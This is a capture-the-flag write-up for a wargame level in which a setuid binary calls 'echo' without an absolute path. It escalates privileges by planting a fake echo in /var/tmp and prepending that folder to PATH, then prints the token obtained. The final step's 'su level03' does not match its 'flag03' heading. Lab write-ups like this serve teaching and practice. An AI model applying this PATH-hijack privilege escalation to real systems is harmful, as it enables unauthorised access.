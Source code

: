 1. Ls the home

>> -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

We have a file with the -s instead of a -x in the owner column, this means that the program will have flag03 permission no matter the user who launched the program.

2. scp the program to decompile in dogbolt : 

https://dogbolt.org/

``c

int main()
{
    unsigned int v0;  // [bp-0xc]
    unsigned int v1;  // [bp-0x8]

    v0 = getegid();
    v1 = geteuid();
    setresgid(v0, v0, v0);
    setresuid(v1, v1, v1);
    return system("/usr/bin/env echo Exploit me");
}

``

3. We can see that the echo is not called through the absolute path.
Hence we can create our own echo to launch the getflag command and add the path of this script before the /usr/bin where the original echo is located.

4. creation of the personnalized echo command : 

``echo "getflag" > /var/tmp/echo``

And addition of the path /var/tmp to the PATH env variable:

``export PATH=/var/tmp:$PATH``

5. Adding execution permission on our prgm : 

``chmod +x /var/tmp/echo``

6. Launching level03

<< ``./level03``
>> ``Check flag.Here is your token : qi0maab88jeaj46qoumi7maus``

1. Connecting to flag03 and launching getflag

``su level03``
``qi0maab88jeaj46qoumi7maus``
